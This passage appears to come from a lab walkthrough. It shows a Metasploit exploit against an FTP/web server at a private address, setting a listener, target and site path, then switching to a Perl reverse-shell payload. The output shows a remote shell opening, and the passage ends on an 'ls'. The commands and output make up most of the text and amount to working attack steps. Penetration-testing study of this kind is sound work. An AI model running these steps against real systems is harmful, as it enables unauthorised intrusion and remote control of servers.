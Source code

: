 ```bash
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.0.104    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

```bash
set rhosts 172.28.128.3
set sitepath /var/www/html
```

Now we are going to try to run the exploit

```bash
exploit
```

```bash
[*] Started reverse TCP handler on 192.168.0.104:4444 
[*] 172.28.128.3:80 - 172.28.128.3:21 - Connected to FTP server
[*] 172.28.128.3:80 - 172.28.128.3:21 - Sending copy commands to FTP server
[*] 172.28.128.3:80 - Executing PHP payload /x7kh3w.php
[+] 172.28.128.3:80 - Deleted /var/www/html/x7kh3w.php
[*] Command shell session 1 opened (192.168.0.104:4444 -> 192.168.0.104:40142) at 2023-11-17 00:54:30 +0200
[-] 172.28.128.3:80 - Exploit aborted due to failure: unknown: 172.28.128.3:21 - Failure executing payload
[*] Exploit completed, but no session was created.
```

We can see that the exploit failed, we try to set the payload to a different one and then repeat

``` bash
set payload payload/cmd/unix/reverse_perl
exploit
```

```bash
[*] Started reverse TCP handler on 192.168.0.104:4444                                                                                                                                      
[*] 172.28.128.3:80 - 172.28.128.3:21 - Connected to FTP server                                                                                                                            
[*] 172.28.128.3:80 - 172.28.128.3:21 - Sending copy commands to FTP server                                                                                                                
[*] 172.28.128.3:80 - Executing PHP payload /TWmEi.php                                                                                                                                     
[+] 172.28.128.3:80 - Deleted /var/www/html/TWmEi.php                                                                                                                                      
[*] Command shell session 3 opened (192.168.0.104:4444 -> 192.168.0.104:46438) at 2023-11-17 01:03:35 +0200  
```

Now we can see that the attack worked successfuly and we have a shell that we can use, from here we can see the files and folders:

```bash
ls
```
